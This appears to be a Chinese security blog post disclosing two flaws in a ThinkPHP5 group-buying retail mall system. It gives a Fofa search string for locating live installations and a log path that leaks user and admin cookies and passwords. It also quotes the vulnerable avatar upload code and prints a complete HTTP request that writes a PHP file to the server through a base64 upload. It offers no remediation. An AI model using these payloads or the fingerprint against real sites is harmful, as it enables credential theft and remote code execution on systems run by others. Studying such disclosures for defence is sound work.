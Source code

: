 #  某TP拼团零售商城系统RCE漏洞审计   
Mstir  星悦安全   2024-07-20 10:27  
  
## 0x00 前言  
  
**ThinkPHP5 拼团拼购系统，支持热门商品，余额总览，红包分销，商品销售，购物车等功能，后台使用管理系统所构建.**  
  
**Fofa:"/public/static/plugins/zepto/dist/zepto.js"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5frMNNa3fex9jpuATUJMHdhxQ5WeU7dImQkg9Sp9xRrhp9fr9Gk03cOiaFsPMgk8Qfjac4rl7k0l4g/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5frMNNa3fex9jpuATUJMHdh4RQDOvhmlQBBvTybUBX9EicQ92GaIcaXgqngpMxjDnfH0u2y7KUxUxA/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5frMNNa3fex9jpuATUJMHdhVKBsBiby0DxfmWk9vWkvU0xjLKZx0X0Pc4hDxXiaGpOMPWxYmBvEI44w/640?wx_fmt=jpeg&from=appmsg "")  
  
**框架:ThinkPHP 5.0.24 Debug:True**  
## 0x01 前台Log日志泄露漏洞  
  
  
**由于是TP5.0.24 开了debug，且根目录就能访问到，导致日志泄露，这里能看到普通用户访问日志和管理员的访问日志，甚至还有Cookie和登录时的账号密码.**  
  
**Payload 这种格式****:**  
```
/runtime/log/202407/20.log
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5frMNNa3fex9jpuATUJMHdhDay2cy2wY7GlUtDyIV1MzgmoOc6ngemlwgPszxrN6icphVjWUmEHqVA/640?wx_fmt=other&from=appmsg "")  
****## 0x02 前台任意文件写入漏洞  
  
**在 /home/controller/User.php 控制器的 avatar 方法中，有一处很明显的通过Base64进行文件写入的操作，通过input('base64')来传递文件内容及文件名，然后经过 uploadOneBase64Image 方法来写入.**  
```
/*
* 个人信息
*/
public function avatar()
{
    $userLogic = new \app\common\logic\UsersLogic();
    $base64Image = input('base64');
    if ($base64Image) {

      $dirName = "home" . DS . "user" . DS . "head_pic";
      $time = time();
      // 检验时间
      if($this->user["head_time"] > 0){

        if($time - $this->user["head_time"]  < 60){
          //                    ajaxReturn(0,'notice',"系统升级中，不能修改头像，敬请谅解");
        }
      }

      $back_img = uploadOneBase64Image($base64Image,$dirName);
      if(!empty($back_img["error"])){
        ajaxReturn(0,'notice',$back_img["error"]);
      }

      $update = $userLogic->update_info($this->user_id, [
                                        "head_pic"=>$back_img["imageUrl"],
                                        "head_time"=>$time,
                                        ]);

      if (!$update){
        ajaxReturn(0,'notice',"头像更新失败！");
      }else{
        ajaxReturn(1,'success',"头像更新成功！",str_replace("\\",'/',$back_img["imageUrl"]),"/home/user/userinfo.html");
      }
    }
  }
```  
  
**不过我们全局搜索 uploadOneBase64Image 并没有找到这个方法，因为其实际上在/application/common.php 中，该文件整个都被混淆加密了.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5frMNNa3fex9jpuATUJMHdh1MlnGLSDgWGdtmXrXSgn9b89pLdaDWcC9Xg0rF2NEBfC2NLCwCib1gQ/640?wx_fmt=png&from=appmsg "")  
  
**Payload [****需要普通用户登录权限****]:**  
```
POST /home/user/avatar HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 65
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=kplfq401bdcmql31vr7jp2s6ul; user_id=1; uname=%25E5%2588%2598%25E6%2580%25BB
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/home
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

base64=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5frMNNa3fex9jpuATUJMHdhic2uiaysrYVkodloIde5FsxIIrQE8hebOmZok22jGmMclYqyrparrMXQ/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5frMNNa3fex9jpuATUJMHdhRkqIqPLwAumqPib2jn1Up8ORUj4GgN8iamib9ZlT4klc2JF7ZaZJDqOlw/640?wx_fmt=other&from=appmsg "")  
  
**商城系统源码关注公众号发送 sc 获取**  
  
# 免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!  
  
